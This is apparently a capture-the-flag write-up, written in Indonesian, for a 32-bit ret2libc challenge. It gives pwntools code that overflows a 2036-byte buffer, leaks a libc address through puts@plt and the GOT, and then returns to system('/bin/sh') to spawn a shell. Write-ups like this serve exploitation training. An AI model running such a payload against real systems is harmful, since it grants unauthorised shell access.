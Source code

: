 Sama seperti soal sebelumnya disini kita bisa menggunakan teknik `ret2libc` namun bedanya disini kita telah mendapatkan file libc dan linkernya, jadi tidak perlu repot mencari di libc database, 
namun tetap perlu leak got karena untuk leak libc base address

1. Leak libc base dengan menggunakan control EIP untuk `puts@plt` leak got . Disini kita bisa buffer dengan `2036` bytes 
```py
    p=b"A"*2036
    p+=p32(exe.plt["puts"])
    p+=p32(exe.sym["main"])
    p+=p32(exe.got[func_name]) #argument
```
2. Dari leaked got address diatas bisa kita kurangi dengan address dari libcnya
```py
libc.address = leak("puts") - libc.sym["puts"]
```
4. Setelah semua kita dapatkan kita bisa membuat payload seperti ini
```py
    BINSH=next(libc.search(b"/bin/sh"))
    SYSTEM=libc.sym["system"]
    p=b"A"*2036
    p+=p32(SYSTEM) # target function
    p+=p32(exe.sym["main"]) # return function ke main
    p+=p32(BINSH) # argument string untuk system()
    io.sendline(p)
``` 
Karena disini menggunakan arsitektur 32-bits maka tidak perlu gadget untuk passing argument